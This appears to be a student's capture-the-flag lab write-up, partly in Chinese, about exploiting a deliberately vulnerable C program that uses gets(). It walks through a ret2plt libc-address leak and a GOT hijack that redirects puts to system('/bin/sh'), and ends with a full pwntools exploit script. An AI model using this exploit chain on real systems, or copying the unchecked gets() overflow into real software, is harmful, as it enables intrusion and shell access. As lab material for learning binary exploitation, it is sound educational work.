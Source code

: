 ```yaml
---
title: Simple PWN 0x34 (2023 Lab - ret2plt)
tags: [eductf, CTF, PWN]

---
```


# Simple PWN 0x34 (2023 Lab - ret2plt)
## Background
Got Hijack / BoF
## Source code
```cpp
//gcc -no-pie -fno-stack-protector -z norelro ret2plt.c -o ret2plt
#include <stdio.h>
#include <stdlib.h>

int main(){
	char buf[20];
	setvbuf(stdout,0,2,0);
	printf("Try your best :");
	gets(buf);
	puts("boom !");	
}
```
## Recon
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_ret2plt/share/chal'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7ed984819a3908eff455bfcf87716d0fb298fac, for GNU/Linux 3.2.0, not stripped
    ```
    首先知道這隻binary是動態link library，所以可想而知，rop gadget一定少的可憐，所以我們不太能夠直接像上一題一樣暴力開一個shell出來，程式也沒有幫我們開，讓我們可以直接跳過去
2. 還是有很明顯的BOF的漏洞，此時就可以嘗試類似got hijack的方式打看看
流程:
1. 首先我們要知道libc base address才能夠利用扣掉offset的方式跳到system的地方，但是程式中並沒有能夠直接leak base address給我們的東西，因此我們可以自己想辦法leak: ==ret2plt==
    ```
    pop rdi ret
    puts got address
    puts plt
    ```
    這三行的意思是把puts的got address，透過puts印出來給我們 -> puts(put自己的got address)
2. 有了puts的got address之後，就可以扣掉puts在libc的offset，就可以知道base address，然後我們可以知道system的確切address
    ```python
    # leak puts got address to calculate libc base address
    puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
    libc_base = puts_addr - libc.symbols['puts']
    libc.address = libc_base
    system_addr = libc.symbols['system']
    ```
3. 現在的問題有兩個，一個是我們要怎麼把==/bin/sh==送進去，因為如果直接看binary的gadget沒有`/bin/sh`或是`/sh`的string，不過我們可以直接用同樣的方法，把字串送進去
    ```python
    # fetch user input -> /bin/sh\x00
    pop_rdi_ret
    bss_addr
    gets_plt,
    ```
    此時他就會像使用者要輸入，並把我們的輸入丟到bss address
4. 另外一個問題就是我們要怎麼呼叫==system==，因為這個binary是動態的，代表一開始沒有link到system的話就不能直接呼叫，因此我們可以利用同樣的方法達到==got hijacking==
    ```python
    # fetch user input -> system address
    pop_rdi_ret
    puts_got
    gets_plt
    ```
    此時我們可以輸入system的address，經過這三行後我們就成功把puts got address換成system got address
5. 所有工具都準備好了，接下來只要呼叫puts就可以了，實際上就是呼叫system
    ```python
    # system('/bin/sh\x00')
    pop_rdi_ret
    bss_addr
    puts_plt
    ```
## Exploit - Ret2Plt(leak base address) + Got Hijack(call system)
```python
from pwn import *

r = process('./chal')
# r = remote('10.113.184.121', 10053)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

pop_rdi_ret = 0x0000000000401263
puts_got = 0x403368
puts_plt = 0x401070
gets_got = 0x403378
gets_plt = 0x401090
bss_addr = 0x403f00
payload = flat(
    # leak puts got address to calculate libc base address
    pop_rdi_ret,    puts_got,
    puts_plt,

    # fetch user input -> /bin/sh\x00
    pop_rdi_ret,    bss_addr,
    gets_plt,

    # fetch user input -> system address
    pop_rdi_ret,    puts_got,
    gets_plt,

    # system('/bin/sh\x00')
    pop_rdi_ret,    bss_addr,
    puts_plt
)
raw_input()
r.sendlineafter(b'Try your best :', b'a' * 0x28 + payload)
print(r.recvline())

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
log.info(f"puts address = {hex(puts_addr)}")

libc_base = puts_addr - libc.symbols['puts']
libc.address = libc_base
system_addr = libc.symbols['system']
log.info(f'system address = {hex(system_addr)}')
r.sendline(b'/bin/sh\x00')
raw_input()
r.sendline(p64(libc.symbols['system']))

r.interactive()
```